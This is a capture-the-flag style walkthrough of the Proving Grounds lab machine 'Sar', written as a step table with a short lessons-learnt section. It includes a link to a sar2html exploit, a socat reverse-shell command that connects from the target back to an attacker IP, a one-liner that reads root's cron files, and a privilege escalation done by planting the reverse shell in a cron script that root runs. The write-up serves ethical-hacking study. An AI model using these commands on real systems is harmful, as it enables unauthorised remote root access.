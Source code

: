 # PG Play - Sar
## Author: Love Sharma
## Released on: Jul 20, 2020
### Difficulty: Easy
### Community Difficulty: Easy
### Description: This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.
| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened out of habit I manually checked for common files in the web directory, and found sar2html in robots.txt. |
| 3. | I found an exploit for sar2html which I figured I'd test out real quick. https://github.com/AssassinUKG/sar2HTML&ved=2ahUKEwi64tH145iFAxWepVYBHRJtC3gQFnoECAsQAQ&usg=AOvVaw09b6JcvNV9blzX1NKL5321 |
| 4. | This gave me a foothold with a dumb shell as the www user, I now needed to spawn a tty shell. |
| 5. | I tested a few different types of tty shell spawns, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands |
| 5.1 | On my attack box ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 5.2 | On the target ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` | 
| 6. | I'd transferred linpeas over earlier with the dumb shell but made it a priority to get a tty first. I found that I had access to the /var/spool/cron/crontabs folder which included cron jobs for the root user. I discovered that a script called finally.sh ran on every 5th minute as a cron job this file was only executable and readable by me. |
| 6.1 | I found another nice command that could of found this cron job quicker: ```cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"``` |
| 7. | I navigated to the finally.sh file at ```/var/www/html/finally.sh``` |
| 8. | When I read the finally.sh I found the scripts only purpose is to run another script called write.sh every 5th minute, I had read, write and execute permissions of the write.sh file. All the write.sh file did was create a empty file in the tmp directory called gateway. |
| 9. | I modified write.sh to include the socat reverse shell, since the cronjob for finally.sh ran every 5 minutes it would provide me, in theory which a reverse shell as root. |
| 10. | This worked and I was able to obtain the proof.txt for this machine |

| Lessons Learnt: |
| --- | --- |
| 1. | This machine reminded me of a couple of things I learnt from the TCM Academy course on Ethical hacking, which was taking advantage of files that were either directly ran as root and I was capable of modifying. |
| 2. | The value of a tty shell |
